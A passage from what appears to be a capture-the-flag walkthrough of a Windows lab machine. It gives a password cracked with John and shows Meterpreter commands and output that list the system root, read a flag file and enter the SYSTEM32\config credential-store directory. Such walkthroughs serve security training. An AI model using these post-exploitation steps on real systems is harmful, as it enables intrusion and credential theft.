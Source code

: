 We notice in the output that John managed to find Jon's password: **alqfna22**

**Question:** What is the name of the non-default user? **Jon**  
**Question:** What is the cracked password? **alqfna22**

## Find the flags

Last but not least to complete the room we need to grab some flags.  
Luckily they are not totally mean and give us some hints.

The first flag can be found at the _system root_:

```bash
meterpreter > pwd
C:\
meterpreter > dir
Listing: C:\
============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
040777/rwxrwxrwx  0      dir   2018-12-13 03:13:36 +0000  $Recycle.Bin
040777/rwxrwxrwx  0      dir   2009-07-14 06:08:56 +0100  Documents and Settings
040777/rwxrwxrwx  0      dir   2009-07-14 04:20:08 +0100  PerfLogs
040555/r-xr-xr-x  4096   dir   2019-03-17 22:22:01 +0000  Program Files
040555/r-xr-xr-x  4096   dir   2019-03-17 22:28:38 +0000  Program Files (x86)
040777/rwxrwxrwx  4096   dir   2019-03-17 22:35:57 +0000  ProgramData
040777/rwxrwxrwx  0      dir   2018-12-13 03:13:22 +0000  Recovery
040777/rwxrwxrwx  4096   dir   2024-09-13 14:14:36 +0100  System Volume Information
040555/r-xr-xr-x  4096   dir   2018-12-13 03:13:28 +0000  Users
040777/rwxrwxrwx  16384  dir   2019-03-17 22:36:30 +0000  Windows
100666/rw-rw-rw-  24     fil   2019-03-17 19:27:21 +0000  flag1.txt
000000/---------  0      fif   1970-01-01 01:00:00 +0100  hiberfil.sys
000000/---------  0      fif   1970-01-01 01:00:00 +0100  pagefile.sys

meterpreter > cat flag1.txt
flag{access_the_machine}meterpreter >
```

**Question:** Flag 1? **flag{access_the_machine}**

The second flag can be found where the password are stored:

```bash
meterpreter > cd C:/WINDOWS/SYSTEM32/config
meterpreter > dir
Listing: C:\WINDOWS\SYSTEM32\config
===================================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
100666/rw-rw-rw-  28672     fil   2018-12-12 23:00:40 +0000  BCD-Template
100666/rw-rw-rw-  25600     fil   2018-12-12 23:00:40 +0000  BCD-Template.LOG
100666/rw-rw-rw-  18087936  fil   2024-09-13 14:00:10 +0100  COMPONENTS
100666/rw-rw-rw-  1024      fil   2011-04-12 09:32:10 +0100  COMPONENTS.LOG
100666/rw-rw-rw-  13312     fil   2024-09-13 14:00:10 +0100  COMPONENTS.LOG1
100666/rw-rw-rw-  0         fil   2009-07-14 03:34:08 +0100  COMPONENTS.LOG2
100666/rw-rw-rw-  1048576   fil   2024-09-13 13:50:46 +0100  COMPONENTS{016888b8-6c6f-11de-8d1d-001e0bcde3ec}.TxR.0.regtrans-ms
100666/rw-rw-rw-  1048576   fil   2024-09-13 13:50:46 +0100  COMPONENTS{016888b8-6c6f-11de-8d1d-001e0bcde3ec}.TxR.1.regtrans-ms
100666/rw-rw-rw-  1048576   fil   2024-09-13 13:50:46 +0100  COMPONENTS{016888b8-6c6f-11de-8d1d-001e0bcde3ec}.TxR.2.regtrans-ms
100666/rw-rw-rw-  65536     fil   2024-09-13 13:50:46 +0100  COMPONENTS{016888b8-6c6f-11de-8d1d-001e0bcde3ec}.TxR.blf
100666/rw-rw-rw-  65536     fil   2018-12-13 03:20:57 +0000  COMPONENTS{016888b9-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf
```